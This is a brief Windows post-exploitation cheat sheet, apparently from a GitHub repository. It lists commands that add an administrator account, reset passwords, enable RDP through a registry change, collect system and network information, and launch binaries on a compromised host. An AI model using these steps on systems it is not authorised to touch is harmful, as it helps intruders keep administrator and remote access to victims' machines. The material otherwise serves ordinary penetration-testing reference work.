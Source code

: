 # Post Exploitation Cheat Sheet
This module will contain all Windows/DOS post exploitation items that I use on a daily basis.
## Add Admin User
1. Add the User:
* `net user /add [username] [password]`
2. Add the usedr to the Admin Group:
* `net localgroup administrators [username] /add`
3. Change a user's password
* `net user USERNAME NEWPASS`

## Enable RDP (XP+)
This command will enable RDP on a server which the `reg` command is installed. You must have System access to do so, and RDP must be installed.
1. To enable RDP (must be Windows XP or above as the `reg` command will be used.)

* `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
## System / Network Info
These commands will return any system or network information and should be done during post exploitation.
* `netstat -ano` OR JUST `netstat -an`
* `systeminfo` (XP+)
## Command Execution
To run a binary on the FS of the compromised system from os-shell> in nmap:

`start /max /d"C:\Program files\foo\" ba.exe -somearguments`
